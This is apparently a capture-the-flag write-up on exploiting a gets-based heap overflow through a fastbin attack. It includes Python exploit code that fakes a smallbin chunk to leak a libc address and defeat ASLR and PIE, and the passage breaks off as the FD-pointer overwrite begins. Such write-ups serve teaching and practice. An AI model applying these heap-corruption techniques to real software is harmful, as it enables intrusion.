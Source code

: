 Content reading is done using `gets`, which is known to be unsecure, because it doens't do any bound check. This allows us to write out of the malloc'ed item  chunks and thus overwriting stuff.


# Fastbin Attack

Based on the information we have, and what we can do, we can see that this is a typical fastbin attack, where we need to overwrite a free chunk **FD** pointer by a fake one that we can use to achieve an arbitrary read/write.

But since `PIE` and `ASLR` are enabled, we need to defeat them first by leaking some addresses.

We know that `smallbins` will have a pointer to `main_arena` in their **FD** and **BK** pointers once free'ed, so if we manage to craft a fake `smallbin`, free it and then create a new empty item, the item will be located in the same region as the previously free'ed fake smallbin, so by printing the item we would have leaked a `libc` address. To do so, we can overwrite into a chunk metadata to corrupt it's `size` field and make it looks like a `smallbin`.

The function I used to do the leak looks as follow:

```python
def getheapleak():
    add_item(1, "AAAAAAA")
    add_item(3, "AAAAAAA")
    add_item(3, "AAAAAAA")
    add_item(1, "AAAAAAA")

    fake_chunk = "A"*24 + p64(0xe1)
    edit_item(0, fake_chunk)

    delete_item(1)

    add_empty_items(2, 1)

    r.sendline("1")
    r.recvuntil("3. ")

    leak = r.recvline(keepends=False)
    leak = leak + ("\x00" * (8 - len(leak)))
    r.recvuntil("Exit\n")

    return u64(leak)
```

With the leaked address we can locate `libc` base address and the binary `PIE` base. Thus defeating both `ASLR` and `PIE`.

The next step is to free an item so that the `fastbin` list get populated and then overwrite the free'ed item (by editing the previous one) **FD** pointer by a fake chunk.

```python
add_empty_items(1, 4)
delete_item(7)
```
